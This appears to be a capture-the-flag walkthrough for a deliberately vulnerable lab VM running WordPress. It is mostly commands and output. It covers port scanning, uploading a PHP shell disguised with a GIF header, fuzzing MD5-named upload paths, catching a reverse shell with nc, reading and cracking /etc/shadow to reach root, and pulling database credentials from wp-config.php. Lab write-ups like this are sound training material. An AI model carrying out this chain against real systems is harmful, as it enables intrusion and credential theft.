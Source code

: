 <pre>
Enum
    Open ports:
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d9:c1:5c:20:9a:77:54:f8:a3:41:18:92:1b:1e:e5:35 (RSA)
|   256 df:d4:f2:61:89:61:ac:e0:ee:3b:5d:07:0d:3f:0c:87 (ECDSA)
|_  256 8b:e4:45:ab:af:c8:0e:7e:2a:e4:47:e7:52:f9:bc:71 (ED25519)
8000/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.0.3
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 2 disallowed entries
|_/upload.php /uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blog &#8211; Just another WordPress site
MAC Address: 08:00:27:20:A9:BC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Edit /etc/hosts:
    192.168.1.30 localhost

Enum Port 8000:
    http://192.168.1.30:8000/robots.txt
        User-agent:*
Disallow:/upload.php
Disallow:/uploads
    Upload service:
        http://192.168.1.30:8000/uploads/ -> dir for uploads
http://192.168.1.30:8000/upload.php
    Wordpress dir:
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
/server-status (Status: 403)

Make shell.php with in line 1:
GIF89a;

Upload.php enum:
Source code: https://github.com/fatihhcelik/Vulnerable-Machine---Hint/blob/master/upload.php


Make make a encryption script for md5:
<?php
for ($i=1;$i<=100;$i++){
        echo md5("revshell.php".$i);
        echo "\r\n";
}

$ php cryptor.php > md5hashes


wfuzz -w md5hashes --hc 404 http://localhost:8000/uploads/FUZZ.php 
Result:
"52b584bdebbecbe48f05e83192ffb6ca"

And you put this:
http://localhost:8000/uploads/52b584bdebbecbe48f05e83192ffb6ca.php -> reverse_shell.php

rlwrap nc -nlvvp [port] 

Run reverse shell and get command line


$ python -c 'import pty; pty.spawn("/bin/bash")'
Result: 
www-data@1afdd1f6b82c:/$

Priv Esc:
    tail -c1G /etc/shadow

    Find shadow pwds
    
    Go in attacker terminal and:
        $ touch hashes
        $ vi hashes

        And add:        
    root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
daemon:*:17931:0:99999:7:::
bin:*:17931:0:99999:7:::
sys:*:17931:0:99999:7:::
sync:*:17931:0:99999:7:::
games:*:17931:0:99999:7:::
man:*:17931:0:99999:7:::
lp:*:17931:0:99999:7:::
mail:*:17931:0:99999:7:::
news:*:17931:0:99999:7:::
uucp:*:17931:0:99999:7:::
proxy:*:17931:0:99999:7:::
www-data:*:17931:0:99999:7:::
backup:*:17931:0:99999:7:::
list:*:17931:0:99999:7:::
irc:*:17931:0:99999:7:::
gnats:*:17931:0:99999:7:::
nobody:*:17931:0:99999:7:::
_apt:*:17931:0:99999:7:::
        
    Crack shadow file:
        $ john hashes    
            john             (root)
            
         $    su root 
    Password: john

    $Id 
uid=0(root) gid=0(root) groups=0(root)

    $ cd /root

    $ ls -al

    $ cat flag
        Life consists of details..

Wordpress creds:
    $ find / -name *wp-config*

    $ cat /var/www/html/wp-config.php
        /** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

        /** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'wordpress');
/** MySQL hostname */
define('DB_HOST', 'db:3306');

End##


</pre>
